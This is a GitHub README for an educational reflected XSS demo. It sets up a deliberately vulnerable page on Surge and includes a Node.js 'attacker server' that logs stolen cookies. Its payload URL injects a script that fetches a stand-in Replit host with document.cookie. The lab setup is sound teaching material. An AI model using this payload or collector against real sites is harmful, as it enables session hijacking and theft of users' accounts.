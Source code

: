 
# 🧪 XSS Demo (Educational Purpose Only)

  

This repository demonstrates a basic **Reflected Cross-Site Scripting (XSS)** attack. It is divided into two parts:

  

-  **Victim Site** – A vulnerable web page hosted using Surge.

-  **Attacker Server** – A Node.js-based server that logs cookies received via an XSS payload.

  

---

  

## ⚠️ Disclaimer

  

> This project is intended **strictly for educational purposes** only.
> Do **NOT** use this in production environments or against any systems you do not own or have explicit permission to test.
> The purpose is to **learn and demonstrate XSS attacks responsibly** in a controlled environment.

  

---

  

## 📁 Folder Structure

  

```

xss-demo/

│

├── victim/

│ └── index.html # Vulnerable page that reflects user input

│

├── attacker/

│ └── attacker.js # Server-side receiver for stolen cookies

│

└── readme.md

```

  

---

  

## 📥 1. Clone the Repository

  

```bash

git  clone  https://github.com/YOUR_USERNAME/xss-demo.git

cd  xss-demo

```

  

---

  

## 🌐 2. Deploy the Victim Page on Surge

  

Make sure you have [Surge](https://surge.sh) installed:

  

```bash

npm  install  --global  surge

```

  

Then deploy the victim folder:

  

```bash

cd  victim

surge  .  https://xss-victim-demo.surge.sh

```

  

---

  

## 💻 3. Running the Attacker Server

  

You have **two options**:

  

---

  

### 🔸 Option A: Run it Locally Using Node.js

  

1. Navigate to the attacker folder:

  

```bash

cd attacker

```

  

2. Use the provided Node.js server code in `attacker.js`:

```js

const  http = require('http');

const  url = require('url');

  

http.createServer((req, res) => {

const  queryObject = url.parse(req.url, true).query;

console.log("🔥 Stolen cookie:", queryObject.cookie);

res.end('Cookie received');

}).listen(3000, () => {

console.log('Attacker server listening on port 3000');

});

```

  

3. Run it:

```bash

node attacker.js

```

  

> 🔒 Note: This works only locally unless you expose the server (e.g., using `ngrok`).

  

---

  

### 🔸 Option B: Use Replit (Recommended for Public Demo)

  

1. Go to [https://replit.com](https://replit.com)

2. Create a new **Node.js Repl**

3. Paste the content of `attacker.js` into `index.js`

4. Click **Run** to start the server

5. Use the Replit public URL in your payload (e.g. `https://your-repl.replit.app/steal?cookie=...`)

  

---

  

## 🚨 4. Trigger the XSS Payload

  

Now visit the following URL in your browser:

  

```

https://xss-victim-demo.surge.sh/?q=<script>fetch("https://your-repl.replit.app/steal?cookie="+document.cookie)</script>

```

  

This will:

  

- Load a script into the vulnerable victim site

- Send `document.cookie` to your attacker server

- Log the cookie in your local or Replit console

  

---

  

## 🙌 Credits & Notes

  

- Developed for educational purposes only.

- Created by [Dinesh](https://github.com/dinesh-thirugnanam)